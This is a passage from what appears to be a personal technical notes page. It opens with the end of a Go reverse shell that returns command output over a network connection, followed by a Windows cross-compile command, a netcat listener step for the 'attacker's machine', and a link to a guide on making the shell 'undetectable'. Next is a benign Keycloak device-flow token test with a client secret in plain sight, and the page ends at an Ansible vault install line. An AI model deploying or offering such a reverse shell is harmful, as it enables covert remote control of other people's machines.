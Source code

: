 ```go
         return
      }

      fmt.Fprintf(conn, "%s\n",out)

   }
}

```

* compile: `env GOOS=windows GOARCH=386 go build hello.go`
* Attacker's machine: `nc -v -l -p 4443`

Source: [https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1](https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1)

## Keycloak device auth test

```python

import time
import requests
import json
import sys
data = {"client_id": "xxxx", "client_secret": "xxxxx"}
headers = {"Content-Type": "application/x-www-form-urlencoded"}
r = requests.post("http://127.0.0.1:8081/auth/realms/test/protocol/openid-connect/auth/device", data=data, headers=headers)
if r.status_code != 200:
    print(r.text)
    sys.exit(1)
rdata = json.loads(r.text)
device_code = rdata['device_code']
user_code = rdata['user_code']
verification_uri = rdata['verification_uri_complete']
print("Go to address {} and give code {}".format(verification_uri, user_code))
poll_data = {"client_id": "xxxx", "client_secret": "26ef7e5d-54cd-4570-a8d9-62687ed21d72", "grant_type": "urn:ietf:params:oauth:grant-type:device_code", "device_code": device_code}
while True:
    r = json.loads(requests.post("http://127.0.0.1:8081/auth/realms/test/protocol/openid-connect/token", data=poll_data, headers=headers).text)
    if "error" in r and r['error'] == "authorization_pending":
        time.sleep(5)
    elif "access_token" in r:
        print("Access token: {}".format(r['access_token']))
        break
```

## Read Ansible vault file with Python

`pip3 install ansible_vault`
